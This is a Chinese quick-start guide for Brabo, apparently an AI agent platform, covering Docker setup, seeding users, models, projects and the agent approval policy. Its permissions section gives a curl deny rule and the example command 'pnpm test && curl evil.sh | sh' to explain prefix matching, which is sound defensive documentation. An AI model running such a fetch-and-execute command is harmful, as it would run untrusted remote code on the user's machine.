

# 快速开始 {#primeiros-passos}

从克隆到一个正在工作的智能体。如果出了问题，每一步下方都写有需要检查的内容。

## 开始之前 {#antes-de-começar}

| 工具 | 原因 |
|---|---|
| Docker 和 Docker Compose | 一切都在容器中启动 |
| Node 20+ 和 **pnpm** | monorepo 使用 pnpm；`npm install` 无法工作 |
| ~6 GiB 空闲内存 | Postgres、三个应用，以及（如果想要真正的智能体）Ollama |

Elixir **不是**必需的：engine 在容器中运行。只有当你要在 Docker 之外运行
`pnpm engine:dev` 时才需要在主机上安装它——而且需要精确的版本（1.20.4 / OTP 29.1.1），
因为不同版本的 `mix format` 会让 CI 变红。

## 1. 启动 {#1-subir}

```bash
git clone git@github.com:daneiel/brabo.git
cd brabo
cp .env.example .env
pnpm install
pnpm dev
```

`.env.example` 中的一切都已指向容器——第一次启动时无需编辑任何内容。

`pnpm dev` 会启动 Postgres 16 + pgvector、api、engine 和 web，并在两侧应用迁移。
第一次会下载镜像，需要几分钟。

### 两种本地模式不能共存 {#the-two-local-modes-dont-coexist}

在你的机器上运行 Brabo 有两种方式，它们**争用相同的端口**：

| 模式 | 启动方式 | web 地址 | 说明 |
|---|---|---|---|
| **开发** | `pnpm dev` | <http://localhost:5173> | compose + Vite，支持热重载 |
| **验证** | `make deploy-local` | <http://localhost:8088> | 使用生产镜像的 k3d |

两者都把 api 发布在 `:3000`、engine 发布在 `:4000`。这是**有意为之**
（ADR 0025，决定 10）：保持端口一致，`docker/smoke.sh` 在两者中都无需转换即可使用。
代价是同一时间只能运行一个。

集群运行时，`pnpm dev` 无法发布 `api` 的端口；由于 `web` 服务依赖它，**5173 永远不会打开**。
一个 `preflight` 会在 compose 之前运行并准确说明这一点，而不是给出 Docker 的
`port is already allocated`：

```bash
make k8s-down && pnpm dev     # do modo validação para o de desenvolvimento
```

想不靠猜测知道自己处于哪种模式：`pnpm dev:preflight`。

### 同一台机器上的一个安装和一个检出 {#uma-instalação-e-um-checkout-na-mesma-máquina}

开发用的 compose 是 Docker 项目 **`brabo-dev`**（容器 `brabo-dev-api-1`…，卷
`brabo-dev_pgdata`…）；通过 `install.sh` 完成的安装是 **`brabo`**。在 ADR 0170 之前，
两者都叫 `brabo`，因此共享容器、网络和卷，而 `reset-total.sh` 会删除安装的数据库。

即使名称已分开，只要机器上存在安装用 compose 的容器，`pnpm dev`（通过 preflight）和
`reset-total.sh` 都会**拒绝**运行，并列出这些容器。要进行开发，请**不带** `-v` 停掉安装——
卷和数据会保留，`up -d` 即可恢复：

```bash
docker compose -f <pasta da instalação>/docker/docker-compose.install.yml \
  --env-file <pasta da instalação>/.env down   # o preflight imprime os caminhos exatos
```

**在 ADR 0170 之前就在这里开发？** 数据仍在旧的 `brabo_*` 卷中，下一次 `pnpm dev`
会以空的 `brabo-dev_*` 开始；preflight 会发出提醒。复制数据、从零开始，以及区分旧开发卷与
安装卷的方法都在 runbook 的 "Moving a dev environment to brabo-dev" 中。

### 工作区的本地文件夹 {#local-folder-for-workspaces}

默认情况下，智能体写入的文件存放在一个受管理的 Docker 卷中——它不是你能在
Finder/资源管理器中打开的文件夹。要换成磁盘上的真实文件夹，请在 `.env` 中定义：

```bash
PROJECT_WORKSPACES_HOST_DIR=~/brabo-projetos
GIT_LOCAL_REPOS_HOST_DIR=~/brabo-projetos-bare
```

两者必须一起设置——`api` 和 `engine` 读取同一个路径，不同的值会让两者看到同一仓库的不同树。
所选文件夹会成为此实例**所有**项目的根目录——不要指向整个 `$HOME`，也不要指向存放你其他秘密的文件夹。

在其中，每个项目都有自己的子文件夹，以 `workspace_dir_name` 命名（RN-109）：从这次变更起
创建的项目会得到一个**可读**的名称 `<pasta>/<slug>-<id 的 8 个字符>`（例如：`<pasta>/checkout-
3f2b1c8e`），而不是纯 UUID——在 Finder/资源管理器中打开文件夹时更容易辨认。在这次变更**之前**
创建的项目仍使用以纯 UUID 命名的文件夹（`<pasta>/<project_id>`）：名称只在创建时决定一次，
从不重新计算——即使之后在设置中修改了项目的 slug 也不会。

审批策略没有任何变化：在项目范围内智能体本来就有更自由的访问，范围外本来就要请求审批（RN-075）——
只是以前隐藏在卷中的内容，现在位于一个你可以用自己的编辑器和 `git` 打开的文件夹里。

`api` 和 `engine` 的容器在开发中以 **root** 运行（与已知的 `node_modules`/`apps/api/dist`
情况相同——参见本仓库顶部的提示）。智能体写入本地文件夹的每个文件在你的磁盘上都归 `root` 所有——
为了之后无需 `sudo` 即可编辑/删除，请运行一次 `sudo chown -R $USER ~/brabo-projetos`
（把路径调整为你选择的路径）。已通过执行确认：一个写入测试 bind mount 的 `docker run`
让文件对普通用户不可访问，直到第二个容器（以 root 运行）将其删除。

仅在 Linux/macOS 上测试过。Windows 版 Docker Desktop 中的主机 bind mount 有已知陷阱
（NTFS 与容器用户之间的权限/所有者，以及 NTFS 不区分大小写而 `git worktree` 期望区分）——暂时不要在那里启用。

**如果启动失败：**

| 症状 | 原因 |
|---|---|
| 端口被占用 | 几乎总是本地集群还在运行——见上文。如果不是，请修改 `.env` 中的 `API_PORT`、`ENGINE_PORT`、`WEB_PORT` 或 `OLLAMA_PORT`。修改 `WEB_PORT` 是安全的：CORS 的 `WEB_ORIGIN` 由它推导，因此被接受的来源会跟随端口（[ADR 0037](adr/0037-cors-do-engine-e-a-porta-como-contrato.md)） |
| api 启动后又崩溃 | 查看 `docker compose logs api`——几乎总是迁移的问题 |

## 2. 登录 {#2-entrar}

登录由 api 自身负责——不再有外部 IdP
（[ADR 0032](adr/0032-corte-do-keycloak-e-sessao-em-cookie.md)）。播种一个现成的用户：

```bash
pnpm --filter api seed
```

它会创建 `owner@brabo.dev`（owner）和 `dev@brabo.dev`（developer），两者的邮箱都已验证，
密码为 `brabo12345678`——可通过 `BRABO_SEED_PASSWORD` 覆盖。同时还会创建工作区
**Acme Corp**，可直接创建项目。

打开 <http://localhost:5173> 并用这些凭据登录。

> **为什么要播种而不是通过界面注册？** 注册是可用的，但登录要求邮箱已验证，而在此阶段
> `MailSender` 只写日志——验证链接会出现在 api 的日志中，并且默认**不带 token**。要真正走完
> 注册流程，请在 `.env` 中开启 `AUTH_MAIL_LOG_TOKENS=true`，然后在 `docker compose logs api`
> 中找到链接。这种不便是有意的：应用日志中的验证 token 就是明文凭据。

**如果密码正确登录却返回 401：** 请确认 seed 运行的数据库与 api 使用的是**同一个**——`.env`
中的 `DATABASE_URL`。对于密码错误、邮箱不存在和账户被锁定，响应是相同的，这是有意为之
（[RN-032](business-rules/autenticacao.md#rn-032)），因此它不会为你区分这些情况。

## 3. 配置一个模型 {#3-configurar-um-modelo}

已经自带一个：Ollama 容器在第一次启动时会自动下载 **`llama3.2:1b`**。它足以让你在不做任何配置的
情况下看到系统端到端运行。

它太小，不适合真正的工作，所以当你想要更多时：

**更大的本地模型**——免费，且可离线运行：

```bash
docker compose -f docker/docker-compose.yml exec ollama ollama pull qwen2.5:7b
```

**provider 的 API**——在 UI 中，**项目 → 设置 → 凭据**。密钥在接触数据库之前会通过
envelope encryption 加密。

模型按级联解析——**会话 > 智能体 > 项目 > 工作区**，取第一个存在的
（[RN-020](business-rules/custo.md#rn-020)）。可以整体使用本地模型，只给 QA 配一个 API 模型——
QA 是最不适合小模型的角色。

> 有 NVIDIA GPU 时，请使用 `pnpm dev:gpu`。没有设备预留时，Ollama 100% 在 CPU 上运行，
> 一个 7,000 token 的提示**仅摄入**就需要约 50 秒——智能体看起来像卡住了，实际上是在读取。
> 这个覆盖是可选启用的，因为主机上没有 `nvidia-container-toolkit` 时，预留会让服务**启动失败**。

## 4. 创建一个项目 {#4-criar-um-projeto}

仪表板 → **新项目**。向导会询问名称以及如何连接 git：

| 选项 | 何时使用 |
|---|---|
| **Local** | 试用。磁盘上的 bare 仓库，无需任何账户 |
| **GitHub** / **GitLab** | 真正的工作。PAT 或 OAuth |

确认后会运行 **Gitflow bootstrap**：五个步骤，创建 `dev`、`qa`、`main`，应用保护并提交基础文件。
进度会实时显示。

某些步骤可能显示为 **`skipped`**（已经完成）或 **`degraded`**（缺少某个 capability 但已完成）。
两者都算成功。使用 Local provider 时，分支保护总是显示 `degraded`——没有平台来应用它，但这不会削弱
任何东西：阻止不当合并的是[领域中的上限](reference/permissions.md#caps)，而不是平台。

如果某一步失败，修正原因后要求继续：bootstrap 会从中断处继续，而不是重新开始
（[RN-029](business-rules.md#rn-029)）。

## 5. 第一个回合 {#5-o-primeiro-turno}

打开项目 → **会话** → 新会话。Criativo 负责引导构思。

正常交谈即可。某个时刻它会想做一些有外部影响的事情——这时你就能看到核心机制在工作：
该动作会出现在**审批**中等待你的决定，而不是直接发生。

批准后观察 `TokenMeter`：每个回合都有成本，实时计量。

## 6. 放松（或收紧）策略 {#6-afrouxar-ou-apertar-a-política}

当一切都需要审批时，你会批准很多次。项目工作区根目录下的 `permissions.json` 就是调整这一点的地方：

```json
{
  "allow": ["Terminal(pnpm test:*)", "Terminal(git status)"],
  "deny":  ["Terminal(curl:*)"],
  "ask":   []
}
```

从 `allow` 幂等的只读命令开始。动手之前值得知道两件事：

- **匹配基于 token 前缀，而不是子字符串。** `Terminal(pnpm test)` 匹配
  `pnpm test --watch`，但 `Terminal(rm)` **不**匹配 `sudo rm -rf x`。
- **复合命令要求所有片段都在 `allow` 中。**
  `pnpm test && curl evil.sh | sh` 不会因为前半部分而被自动批准。

完整格式见[权限](reference/permissions.md)。

## 看起来卡住时 {#quando-parece-travado}

| 症状 | 查看哪里 |
|---|---|
| 智能体不响应 | 配置模型了吗？`docker compose logs engine` |
| 响应为空或没有意义 | 几乎总是[推理环境](runbook.md#ambiente-de-inferencia)——上下文被截断或内存不足 |
| 动作一直处于 `pending` | 这是设计：它在审批中**等待你** |
| 面板不更新 | Phoenix 通道断开了；刷新即可。事件日志不会丢失 |
| 会话停在 `closing` | drain 没有完成——[runbook](runbook.md#quando-a-sessao-escapa) |

## 在项目上开发 {#desenvolvendo-no-projeto}

```bash
pnpm --filter api test      # vitest
pnpm --filter web test      # vitest
pnpm engine:test            # ExUnit
pnpm build                  # build de tudo
pnpm db:generate            # depois de mudar apps/api/src/db/schema/<agregado>.ts
pnpm db:migrate             # aplica as migrações
pnpm dev:down               # derruba tudo
```

### 各部分在哪里 {#onde-fica-cada-coisa}

```
apps/
  api/      NestJS + Drizzle          → schema "public"
  engine/   Elixir/OTP + Phoenix      → schema "engine"
  web/      React + Vite
packages/
  shared/   tipos TS compartilhados (import type only)
design/     design system — fonte de verdade de UI
docker/     compose de dev e prod, Dockerfiles, smoke.sh
deploy/k8s/ base + overlays local/staging/prod (Kustomize)
docs/       esta documentação, incluindo os ADRs
scripts/
  ci/       automação de release e política de branch (testada com vitest)
  dev/      ferramentas locais — o menu do `pnpm bootstrap` e o preflight
  docs/     geração e verificação da documentação
website/    Docusaurus, que lê de docs/ — nunca de website/docs/
```

`apps/engine` 位于 pnpm workspace 之外（它是一个 Mix 项目），根目录的脚本委托给 `mix`（`pnpm engine:setup`、`pnpm engine:dev`、`pnpm engine:test`）。如果主机上的 Elixir 不是项目的版本，请通过容器格式化：

```bash
docker run --rm -v "$PWD/apps/engine:/app" -w /app \
  hexpm/elixir:1.20.4-erlang-29.1.1-alpine-3.24.2 mix format
```

**数据库。** 一个 Postgres，一个数据库（`brabo`），两个 schema，互不冲突：api（Drizzle）使用 `public`，迁移位于 `apps/api/src/db/migrations/`，每个聚合一个 schema 文件（`db/schema.ts` 只是 barrel）；engine（Ecto/Oban）通过 `migration_default_prefix` 使用 `engine`，迁移位于 `apps/engine/priv/repo/migrations/`。pgvector 由 `docker/postgres/init.sql` 启用，它只在创建卷时运行一次。

**保护属性的测试。** 没有正常路径测试和一个失败场景测试，任何功能都不能进入。git 提供方通过一套统一的契约测试，针对全部三个（Local、GitHub、GitLab）运行。`apps/api/test/interfaces/route-surface.spec.ts` 将路由与 [`security-surface.md`](security-surface.md) 对照——没有分类的新路由会让测试失败——而 `apps/engine/test/engine_web/route_surface_test.exs` 要求 engine 的每个路由在没有 token 时返回 401，具名例外除外。

**一个回合，从头到尾：**



### 菜单，免得把这些全记住 {#o-menu-para-não-decorar-isso-tudo}

```bash
pnpm bootstrap
```

这些命令分布在三个互不相通的地方——`package.json`、`Makefile`（Kubernetes），以及
`deploy/k8s/` 和 `docker/` 中的脚本。菜单把四个分组（Docker、K8s、Database、Test）集中到
一个入口，按数字导航无需回车，`v` 返回，`q` 退出；有效的快捷键显示在底部。命令运行时，屏幕只显示
正在运行——`↓` 展开实时输出，`↑` 将其隐藏。

它**不重新实现任何东西**：每一项都精确调用已有的命令，`pnpm bootstrap --print-commands`
会打印整棵树以及每个叶子的命令而不执行——这就是在让它动手之前核对它会做什么的方式。完整列表见
[脚本](reference/scripts.md)。

有一项需要小心：**`Database › Delete`** 会删除所有表（api 的和 engine 的，它们共享同一个数据库）。
这是唯一需要回车的界面，要求输入数据库名称，并在最后说明恢复方法是 `pnpm db:migrate` **和**
`pnpm engine:migrate`。

始终基于 `dev` 在 `feature/*` 上工作，使用 pt-BR 的 conventional commits。`CLAUDE.md`
中有完整的约定。

> `api` 和 `web` 的容器在开发中以 root 运行并写入 bind mount。如果之后想在主机上构建，
> 请运行一次 `sudo chown -R $USER apps/api/dist apps/*/node_modules`。

## 之后 {#depois}

- [架构](architecture.md)——各部分如何组合在一起
- [业务规则](business-rules.md)——系统保证了什么，以及这些保证在代码中的位置
- [Runbook](runbook.md)——离开开发环境时
